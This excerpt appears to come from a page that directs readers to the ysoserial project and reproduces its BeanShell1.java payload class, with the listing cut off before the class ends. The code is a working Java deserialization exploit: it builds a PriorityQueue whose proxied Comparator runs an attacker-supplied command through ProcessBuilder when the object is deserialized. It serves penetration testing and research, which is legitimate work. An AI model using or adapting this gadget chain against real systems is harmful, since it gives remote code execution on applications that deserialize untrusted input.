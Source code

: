 To do this in Java, clone the code of [ysoserial](https://github.com/frohoff/ysoserial) and look at the following files: [`src/main/java/ysoserial/payloads/BeanShell1.java`](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/BeanShell1.java) 

```java
package ysoserial.payloads;

import bsh.Interpreter;
import bsh.XThis;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Arrays;
import java.util.Comparator;
import java.util.PriorityQueue;

import ysoserial.Strings;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.util.Reflections;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.util.PayloadRunner;

/**
 * Credits: Alvaro Munoz (@pwntester) and Christian Schneider (@cschneider4711)
 */

@SuppressWarnings({ "rawtypes", "unchecked" })
@Dependencies({ "org.beanshell:bsh:2.0b5" })
@Authors({Authors.PWNTESTER, Authors.CSCHNEIDER4711})
public class BeanShell1 extends PayloadRunner implements ObjectPayload<PriorityQueue> {

    public PriorityQueue getObject(String command) throws Exception {
	// BeanShell payload

        String payload =
            "compare(Object foo, Object bar) {new java.lang.ProcessBuilder(new String[]{" +
                Strings.join( // does not support spaces in quotes
                    Arrays.asList(command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"","\\\"").split(" ")),
                    ",", "\"", "\"") +
                "}).start();return new Integer(1);}";

	// Create Interpreter
	Interpreter i = new Interpreter();

	// Evaluate payload
	i.eval(payload);

	// Create InvocationHandler
	XThis xt = new XThis(i.getNameSpace(), i);
	InvocationHandler handler = (InvocationHandler) Reflections.getField(xt.getClass(), "invocationHandler").get(xt);

	// Create Comparator Proxy
	Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

	// Prepare Trigger Gadget (will call Comparator.compare() during deserialization)
	final PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
	Object[] queue = new Object[] {1,1};
	Reflections.setFieldValue(priorityQueue, "queue", queue);
	Reflections.setFieldValue(priorityQueue, "size", 2);

	return priorityQueue;
```